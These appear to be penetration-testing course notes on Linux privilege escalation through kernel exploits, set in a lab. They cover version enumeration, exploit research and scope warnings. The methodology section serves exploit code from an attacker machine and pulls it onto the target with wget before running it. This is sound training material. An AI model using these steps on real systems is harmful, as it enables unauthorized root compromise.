 ## Privilege Escalation: Kernel Exploits
* Privilege escalation ideally leads to root privileges.
  * May be achieved by exploiting an existing vulnerability or by accessing another user account that has more privileges, information, or access.
* Privilege escalation process will rely on misconfigurations and lax permissions unless a single vulnerability leads to a root shell.
* Linux kernel manages communication between components such as the memory on the system and applications.
  * Requires the kernel to have specific privileges.
  * Successful exploit will potentially lead to root privileges.
* Kernel exploit methodology is simple.
1. Identify the kernel version.
2. Search and find an exploit code for the kernel version of the target system.
3. Run the exploit.
* Failed kernel exploits can lead to a system crash.
  * Ensure this potential outcome is acceptable within the scope of the penetration testing engagement before attempting a kernel exploit.

### Research sources
* Use Google to search for existing exploit code based on enumeration findings.
* [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can be useful.
* Use a script like LES (Linux Exploit Suggester).
  * Can generate false positives (report a kernel vulnerability that does not affect the target system).
  * Can generate false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

### Hints/Notes
* Be specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit.
* Understand how the exploit code works BEFORE launching it.
* Some exploit codes can make changes on the OS that would make them insecure in further use or make irreversible changes to the system.
  * This creates problems later.
  * Absolute no-nos during a real penetration testing engagement.
* Some exploits may require further interaction once they are run.
* Read all comments and instructions provided with the exploit code.
* Transfer exploit code from the attacking machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.

## Kernel exploit Methodology
1. Identify the kernel version.
```
uname -a
```
2. Find an exploit code for the kernel version of the target system.
  * Use [Exploit Database](https://www.exploit-db.com) to search for an exploit code.
3. Download the exploit to the attacking machine.
4. Serve the exploit code to the target using `SimpleHTTPServer` Python module.
```
python3 -m http.server 9000
```
5. Use `wget` on target machine to copy the code across.
```
wget http://10.10.166.35:9000/37392.c -P /tmp/
```
  * `-P` option specifies that the file should be saved to the `/tmp/` directory on the target.
    * Specify the path as `/tmp/` to avoid the permission error while running `wget` as a low-level privilege user (karen).
6. Run the exploit file to perform privilege escalation.
> Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.